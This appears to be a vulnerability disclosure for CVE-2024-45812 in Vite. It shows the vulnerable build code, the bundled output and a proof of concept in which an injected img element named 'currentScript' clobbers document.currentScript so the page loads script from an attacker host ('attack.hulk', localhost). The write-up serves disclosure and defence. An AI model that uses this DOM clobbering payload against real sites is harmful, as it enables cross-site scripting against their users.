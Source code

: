 ## Vite

### Meta

+ Library: Vite
+ Version: v5.4.5
+ Stars: 67.2K
+ Payload: ```<img src="https://attack.hulk" name="currentScript">```
+ Impact: XSS
+ CVE: [CVE-2024-45812](https://nvd.nist.gov/vuln/detail/CVE-2024-45812)
+ Status: Patched
+ Foundby: TheHulk

### Library

https://github.com/vitejs/vite

### Vulnerable Code Snippet

```js
// https://github.com/vitejs/vite/blob/main/packages/vite/src/node/build.ts#L1309
const relativeUrlMechanisms = {
  amd: (relativePath) => {
    if (relativePath[0] !== ".") relativePath = "./" + relativePath;
    return getResolveUrl(
      `require.toUrl('${escapeId(relativePath)}'), document.baseURI`
    );
  },
  cjs: (relativePath) => `(typeof document === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath)})`,
  es: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', import.meta.url`
  ),
  iife: (relativePath) => getRelativeUrlFromDocument(relativePath),
  // NOTE: make sure rollup generate `module` params
  system: (relativePath) => getResolveUrl(
    `'${escapeId(partialEncodeURIPath(relativePath))}', module.meta.url`
  ),
  umd: (relativePath) => `(typeof document === 'undefined' && typeof location === 'undefined' ? ${getFileUrlFromRelativePath(
    relativePath
  )} : ${getRelativeUrlFromDocument(relativePath, true)})`
};
```

```sh
npm install -D vite
node ./node_modules/vite/bin/vite.js build
```

Output:
```js
"use strict";const t=""+(typeof document>"u"?require("url").pathToFileURL(__dirname+"/extra-Cjq7Wz0N.js").href:new URL("extra-Cjq7Wz0N.js",document.currentScript&&document.currentScript.src||document.baseURI).href);var e=document.createElement("script");e.src=t;document.head.append(e);
```

## PoC

as an example, bundle the js below: `node ./node_modules/vite/bin/vite.js build`.

```js
import extraURL from './extra.js?url'
var s = document.createElement('script')
s.src = extraURL
document.head.append(s)
```

example html:


```html
<!--Library-->
<script type="module" crossorigin src="index-DDmIg9VD.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="//localhost:9999">
<!--Payload-->
```

